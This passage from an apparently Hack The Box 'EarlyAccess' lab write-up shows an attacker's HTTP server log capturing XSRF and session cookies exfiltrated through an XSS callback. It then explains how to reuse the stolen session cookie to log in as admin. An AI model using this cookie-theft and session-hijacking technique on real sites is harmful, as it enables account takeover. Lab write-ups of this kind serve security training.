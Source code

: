 ```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.157.231 - - [15/Feb/2022 17:34:24] "GET /tgihf.js?c=XSRF-TOKEN=eyJpdiI6IkhaTG5qWExKZndsNlM3ODR4TVF0b1E9PSIsInZhbHVlIjoiZ1ZjYlRsSVNvaWw3WTBraGtyNkwrMHRXWjl1RlVwbjZzbHIzY0w4MU9wSVZmYmtaYWtLdnBuWmFzeTBuQkNrMG5YL0NlMjlvQW1jTXFEYVhCTmlVODdmK0NQR0JNU0lJVTNkMDhSOG9uTVZDVytFbldBODF3MmJYUTRwd3NuVE0iLCJtYWMiOiIxZDBiOTdiMWUyZmQ3ZWU4M2U2M2M0NjNlOTljNjk3ZmU0ZTcwNjIwNGE0NmVlNDQ1NTY4ZjQ5ODQ1NDNlOGUxIn0%3D;%20earlyaccess_session=eyJpdiI6IlZJaFV3cW94Q2FLT0pLS3lud09mUmc9PSIsInZhbHVlIjoidDM1UFlpL014MjN4ZjRJdFRjbjVTdHJoTGtVdkZ3SDJ3eDlEZEphT09xUkt1bklqeGNxWTkycm8wOWIxNzQ4UEpOVEw2OTdjajNQN0dsOVF2MTdzYmpWbnBRMDlqRHcwYzNBZVlnbGYzVW4wRDRMOG53M0ZQT0V2TzhYbHRXYzMiLCJtYWMiOiJhY2I4YjJiMWI4YTZmZTEzYmVjMzY3NTQwZDdlZmJmMTk3NDQ0Y2M2ZjEzYjEyMzBiZjViZDA0NjIxNTZlMTMwIn0%3D HTTP/1.1" 404 -
```

Update the browser's `earlyaccess_session` cookie to this value and visit `/dashboard` as the `admin` user.

![](images/Pasted%20image%2020220215175636.png)

---

## Early Access Dashboard

> Web application enumeration as `admin`

When logged in as `admin`, the **Early Access** dashboard offers some different functionality than when logged in a regular user: an **Admin Panel** and links to `http://dev.earlyaccess.htb` and `http://game.earlyaccess.htb`.
